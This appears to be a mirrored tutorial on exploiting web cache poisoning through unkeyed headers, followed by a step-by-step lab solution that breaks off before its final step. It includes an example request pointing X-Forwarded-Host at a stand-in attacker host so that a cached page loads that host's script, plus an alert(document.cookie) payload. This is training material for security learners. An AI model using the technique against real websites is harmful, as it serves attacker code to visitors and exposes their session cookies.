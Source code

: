 # Exploiting cache design flaws

Websites are vulnerable to web cache poisoning if they handle unkeyed input in an unsafe way and allow the subsequent HTTP responses to be cached. This vulnerability can be used as a delivery method for a variety of different attacks.

## Using web cache poisoning to exploit unsafe handling of resource imports

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead.

If the response containing this malicious URL is cached, the attacker's JavaScript file would be imported and executed in the browser session of any user whose request has a matching cache key.

```
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```

### Web cache poisoning with an unkeyed header

This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes alert(document.cookie) in the visitor's browser.

**Solution**

1. With Burp running, load the website's home page
2. In Burp, go to "Proxy" > "HTTP history" and study the requests and responses that you generated. Find the *GET* request for the home page and send it to Burp Repeater.
3. Add a cache-buster query parameter, such as *?cb=1234*.
4. Add the *X-Forwarded-Host* header with an arbitrary hostname, such as example.com, and send the request.
5. Observe that the *X-Forwarded-Host* header has been used to dynamically generate an absolute URL for importing a JavaScript file stored at */resources/js/tracking.js*.
6. Replay the request and observe that the response contains the header *X-Cache: hit*. This tells us that the response came from the cache.
6. Go to the exploit server and change the file name to match the path used by the vulnerable response:

    ```/resources/js/tracking.js```

8. In the body, enter the payload *alert(document.cookie)* and store the exploit.
9. Open the *GET* request for the home page in Burp Repeater and remove the cache buster.
10. Add the following header, remembering to enter your own exploit server ID:
